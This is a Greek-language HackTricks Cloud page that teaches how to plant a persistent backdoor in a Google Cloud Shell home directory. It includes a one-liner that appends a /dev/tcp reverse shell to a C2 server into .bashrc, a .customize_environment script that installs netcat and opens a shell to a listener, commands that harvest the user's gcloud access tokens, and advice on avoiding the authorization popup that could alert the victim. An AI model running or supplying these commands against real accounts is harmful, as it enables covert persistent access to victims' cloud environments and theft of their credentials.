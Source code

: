 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) σας παρέχει πρόσβαση γραμμής εντολών στους πόρους σας στο cloud απευθείας από το πρόγραμμα περιήγησής σας χωρίς κανένα σχετικό κόστος.

Μπορείτε να αποκτήσετε πρόσβαση στο Cloud Shell της Google από την **ιστοσελίδα κονσόλας** ή εκτελώντας **`gcloud cloud-shell ssh`**.

Αυτή η κονσόλα έχει κάποιες ενδιαφέρουσες δυνατότητες για τους επιτιθέμενους:

1. **Οποιοσδήποτε χρήστης της Google με πρόσβαση στο Google Cloud** έχει πρόσβαση σε μια πλήρως αυθεντικοποιημένη περίπτωση Cloud Shell (Οι Λογαριασμοί Υπηρεσιών μπορούν, ακόμη και αν είναι Ιδιοκτήτες της οργάνωσης).
2. Η εν λόγω περίπτωση θα **διατηρήσει τον κατάλογο αρχικής της για τουλάχιστον 120 ημέρες** αν δεν συμβεί καμία δραστηριότητα.
3. Δεν υπάρχουν **δυνατότητες για μια οργάνωση να παρακολουθεί** τη δραστηριότητα αυτής της περίπτωσης.

Αυτό σημαίνει βασικά ότι ένας επιτιθέμενος μπορεί να τοποθετήσει μια πίσω πόρτα στον κατάλογο αρχικής του χρήστη και όσο ο χρήστης συνδέεται στο GC Shell τουλάχιστον κάθε 120 ημέρες, η πίσω πόρτα θα επιβιώσει και ο επιτιθέμενος θα αποκτά πρόσβαση σε ένα shell κάθε φορά που εκτελείται απλά κάνοντας:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Υπάρχει ένα άλλο αρχείο στον φάκελο του χρήστη που ονομάζεται **`.customize_environment`** που, αν υπάρχει, θα **εκτελείται κάθε φορά** που ο χρήστης έχει πρόσβαση στο **cloud shell** (όπως στην προηγούμενη τεχνική). Απλώς εισάγετε την προηγούμενη πίσω πόρτα ή μία όπως η παρακάτω για να διατηρήσετε την επιμονή όσο ο χρήστης χρησιμοποιεί "συχνά" το cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Είναι σημαντικό να σημειωθεί ότι την **πρώτη φορά που εκτελείται μια ενέργεια που απαιτεί αυθεντικοποίηση**, εμφανίζεται ένα παράθυρο εξουσιοδότησης στον περιηγητή του χρήστη. Αυτό το παράθυρο πρέπει να γίνει αποδεκτό πριν μπορέσει να εκτελεστεί η εντολή. Εάν εμφανιστεί ένα απροσδόκητο παράθυρο, μπορεί να προκαλέσει υποψίες και ενδεχομένως να θέσει σε κίνδυνο τη μέθοδο επιμονής που χρησιμοποιείται.
{% endhint %}

Αυτό είναι το παράθυρο που προκύπτει από την εκτέλεση του `gcloud projects list` από το cloud shell (ως επιτιθέμενος) που προβάλλεται στη συνεδρία του περιηγητή του χρήστη:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Ωστόσο, εάν ο χρήστης έχει χρησιμοποιήσει ενεργά το cloudshell, το παράθυρο δεν θα εμφανιστεί και μπορείτε να **συγκεντρώσετε τα tokens του χρήστη με**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Πώς καθορίζεται η σύνδεση SSH

Βασικά, αυτές οι 3 κλήσεις API χρησιμοποιούνται:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (θα σας κάνει να προσθέσετε το δημόσιο κλειδί που δημιουργήσατε τοπικά)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (θα σας κάνει να ξεκινήσετε την παρουσία)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (θα σας πει τη διεύθυνση ip του google cloud shell)

Αλλά μπορείτε να βρείτε περισσότερες πληροφορίες στο [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Αναφορές

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
